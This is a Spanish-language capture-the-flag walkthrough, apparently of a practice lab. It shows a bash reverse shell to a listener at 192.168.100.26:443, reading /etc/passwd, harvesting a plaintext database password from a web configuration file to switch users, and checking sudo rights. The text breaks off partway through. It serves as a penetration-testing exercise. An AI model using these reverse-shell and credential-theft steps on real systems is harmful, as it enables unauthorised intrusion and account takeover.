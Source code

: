 Ahroa para ganar acceso al objetivo en una nueva terminal nos ponemos en escucha
```bash
nc -nlvp 443
```

Ahroa ganamos acceso desde **metasploit**
```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.100.26/443 <&1'
```

###### Usuario `[ www-data ]`:
Enumerando los usuarios de este sistema:
```bash
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
ballenita:x:1000:1000:ballenita,,,:/home/ballenita:/bin/bash
```

Listando el **home** vemos que tenemos capacidad de atravesar el directorio de este usaurio **ballenita**
```bash
drwxr-xr-x 2 ballenita ballenita 4096 Oct 16  2024 ballenita
```

Ahora podemos acceder a la siguiente ruta para ver ls configuraciones de las bases de datos:
```bash
/var/www/html/sites/default/settings.php
```

Revisando el archivo tenemos las credenciales de el usuario **ballenita**: Las cuales usaremos para intentar loguearnos como este usuario
```bash
 @code
 * $databases['default']['default'] = array (
 *   'database' => 'database_under_beta_testing', // Mensaje del sysadmin, no se usar sql y petó la base de datos jiji xd
 *   'username' => 'ballenita',
 *   'password' => 'ballenitafeliz', 
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
 *   'prefix' => '',
 *   'collation' => 'utf8mb4_general_ci',
 * );
 * @endcode
 */
```

Escalamos de usuario:
```bash
su ballenita # ballenitafeliz
```

###### Usuario `[ ballenita ]`:
Listando los permisos para este usaurio tenemos lo siguiente
```bash
sudo -l 

User ballenita may run the following commands on 76f1a1515e36:
    (root) NOPASSWD: /bin/ls, /bin/gre
```
